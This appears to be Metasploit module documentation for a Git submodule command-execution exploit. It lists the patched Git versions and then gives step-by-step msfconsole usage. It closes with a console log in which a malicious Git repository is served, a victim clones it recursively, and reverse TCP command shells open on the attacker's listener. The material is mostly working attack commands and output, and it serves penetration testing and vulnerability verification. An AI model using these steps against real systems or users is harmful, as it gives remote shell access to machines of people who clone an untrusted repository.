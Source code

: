 ## Vulnerable Application

  Git can be installed on a variety of operating systems, however
  newer versions may contain the patch for this vulnerability.

  On OSX it can be installed with the XCode command line tools:
  ```xcode-select --install```
  
  On Linux it can be installed with apt:
  ```sudo apt-get update && sudo apt-get install git```

  You can check the version with ```git --version```.
  The fix is included in the following version:
    2.7.6, 2.8.6, 2.9.5, 2.10.4, 2.11.3, 2.12.4, 2.13.5, 2.14.1

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: ```use exploit/multi/http/git_submodule_command_exec```
  1. Do: ```set SRVHOST [local host]```
  1. Do: ```set LHOST [local host]```
  1. Do: ```exploit```
  1. Clone the malicious Git URI and its submodules
  1. You should get a shell

## Options

### GIT_URI

  This is the URI the git repository will be hosted from (defaults to random).

### GIT_SUBMODULE

  This is the URI of the submodule within the git repository (defaults to random).
  The url of this submodule, when cloned, will execute the payload.

## Scenarios

  Example usage against a macOS Sierra x64 bit target running git version 2.10.1

```
msf > use exploit/multi/http/git_submodule_command_exec
msf exploit(git_submodule_command_exec) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf exploit(git_submodule_command_exec) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(git_submodule_command_exec) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.0.1:4444
msf exploit(git_submodule_command_exec) > [*] Using URL: http://192.168.0.1:8080/D29MF1UC
[*] Server started.
[*] Malicious Git URI is http://192.168.0.1:8080/ldnwrixuqq.git
***
Victim executes: git clone http://192.168.0.1:8080/ldnwrixuqq.git --recurse-submodules
***
[*] Command shell session 1 opened (192.168.0.1:4444 -> 192.168.0.1:55151) at 2017-08-29 16:54:56 +0800
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.1:55152) at 2017-08-29 16:54:56 +0800
```
